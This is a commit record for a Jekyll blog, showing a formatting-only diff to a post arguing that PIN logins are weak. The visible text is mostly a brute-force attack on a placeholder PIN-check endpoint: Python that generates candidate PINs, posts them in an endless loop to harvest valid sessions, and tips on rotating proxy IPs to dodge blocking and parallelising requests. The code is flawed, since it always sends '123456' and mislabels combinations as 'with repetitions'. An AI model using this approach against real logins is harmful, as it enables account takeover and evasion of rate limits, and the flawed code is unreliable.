

Before and after one commit to proxyroot/proxyroot.github.io, a Jekyll site: the page built from _posts/2021-06-21-why-pin-logins-are-bad.markdown, in a window 1280 px wide. Shown: the part 1958-3862 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Formatting

````diff
--- a/_posts/2021-06-21-why-pin-logins-are-bad.markdown
+++ b/_posts/2021-06-21-why-pin-logins-are-bad.markdown
@@ -37,17 +37,11 @@ With this i can generate 5005 pins that could be tried that have repetitions i.e
 I can generate the combinations with repetitions using python math module as below
 
 ```python
-
 >>> from itertools import combinations
-
 >>> n = range(10)
-
 >>> r = 6
-
 >>> values = list(combinations(n, r))
-
 >>> possible_pins = ["".join(map(lambda x: str(x), item)) for item in values]
-
 >>> possible_pins
 
 ['012345', '012346', '012347', '012348', '012349', '012356', '012357', '012358', '012359', '012367', '012368', '012369', '012378', '012379', '012389', '012456', '012457', '012458', '012459', '012467', '012468', '012469', '012478', '012479', '012489', '012567', '012568', '012569', '012578', '012579', '012589', '012678', '012679', '012689', '012789', '013456', '013457', '013458', '013459', '013467', '013468',...'356789', '456789']
@@ -63,13 +57,9 @@ I made a network trace when i hit submit button using a random 6 digit pin and s
 I can now use this network call to make a request using python requests module as below
 
 ```python
-
 >>> import requests
-
 >>> session = requests.Session()
-
 >>> response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
-
 >>> response
 
 <Response [401]>
@@ -79,17 +69,11 @@ I can now use this network call to make a request using python requests module a
 Now i will go ahead and try to use all the pins that i have to see if any pin is active and i can use it. I modified the above code to match my needs
 
 ```python
-
 >>> successful_attacks = {}
-
 >>> for pin in possible_pins:
-
 >>>     session = requests.Session()
-
 >>>     response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
-
 >>>     if response.status_code == requests.codes.ok:
-
 >>>         successful_attacks[pin] = session
 
 ```
@@ -99,27 +83,16 @@ The above code will find an active/valid pin during the time of request. I want
 I will just put a while loop to do so.
 
 ```python
-
 >>> def attack() -> dict:
-
 >>>     successful_attacks = {}
-
 >>>     for pin in possible_pins:
-
 >>>         session = requests.Session()
-
 >>>         response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
-
 >>>         if response.status_code == requests.codes.ok:
-
 >>>             successful_attacks[pin] = session
-
 >>>     return successful_attacks
-
 >>> successful_sessions = []
-
 >>> while True:
-
 >>>     successful_sessions += attack().values()
 
 ```
@@ -128,11 +101,11 @@ Once the above code runs forever i will get all the successful sessions that i c
 
 # Problems that we have to address along the way
 
-#### Too many requests from the same ip address can result in blocked network calls
+### Too many requests from the same ip address can result in blocked network calls
 
 To resolve this we can use proxy ip addresses to make anonymized network calls using requests
 
-#### Time consumed for each attack with series of requests one after another
+### Time consumed for each attack with series of requests one after another
 
 Now this is a good problem that i want to solve. If each request will take n seconds on an average, then it will take n * 5005 seconds for each attack. There is a possibility that a pin was created and expired during this time. So we have to be fast. To resolve this we can use multi processing or distributed task processing to distribute 5005 tasks evenly so that the results were generated instantly without having to wait on others.
 
````
